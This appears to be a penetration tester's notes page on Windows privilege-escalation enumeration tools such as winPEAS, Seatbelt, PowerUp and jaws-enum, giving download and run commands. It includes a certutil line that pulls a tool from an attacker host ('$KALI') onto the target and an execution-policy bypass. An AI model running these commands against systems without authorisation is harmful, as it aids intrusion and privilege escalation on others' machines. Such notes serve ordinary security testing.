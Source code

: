 
| EXE's | PowerShell | Other |
| --- | --- | --- | 
| winPEAS.exe | Sherlock.ps1 | windows-exploit-suggester.py (Local) |
| Seatbelt.exe | PowerUp.ps1 | Exploit Suggester (Metasploit) |
| Watson.exe | jaws-enum.ps1 |
| SharpUp.exe | 


[[99.__Links (WINDOWS)#Exploring Automated Tools]]


#### winPEAS.exe
```bash - kali
git clone https://github.com/carlospolop/PEASS-ng
```

```bash - kali
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx64.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASx86.exe
```

```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/winPEASany.exe
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/winPEASx64.exe
```

Before running, we need to add a registry key and then reopen the command prompt:

```command prompt - windows
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
```

Run all checks while avoiding time-consuming searches:

```command prompt - windows
.\winPEASx64.exe quiet cmdfast > winpeas.txt
```

Run specific check categories:

```command prompt - windows
.\winPEASx64.exe quiet cmdsysteminfo
```

[[4._File Transfers]]

#### Seatbelt.exe

https://github.com/carlospolop/winPE/tree/master/binaries/seatbelt

```powershell - windows
.\Seatbelt.exe all > Seatbelt.txt
```

To run specific check(s):
```powershell - windows
.\Seatbelt.exe<check> <check>
```

#### Watson.exe
HOW TO USE WATSON: https://vk9-sec.com/watson-find-missing-windows-patches-for-local-privilege-escalation/

```command prompt - windows
watson.exe
```

#### SharpUp.exe

HOW TO USE SHARPUP: https://medium.com/@markmotig/quick-intro-to-building-and-running-sharpup-alternative-to-powerup-ps1-d114d66e9a75

```powershell - windows
.\SharpUp.exe
```

#### Sherlock.ps1

#### PowerUp.ps1
```powershell - windows
powershell -ep bypass
```

```powershell - windows
. .\PowerUp.ps1
```

```powershell - windows
Invoke-AllChecks
```

#### jaws-enum.ps1

```powershell - windows
powershell -ep bypass
```

```powershell - windows
.\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

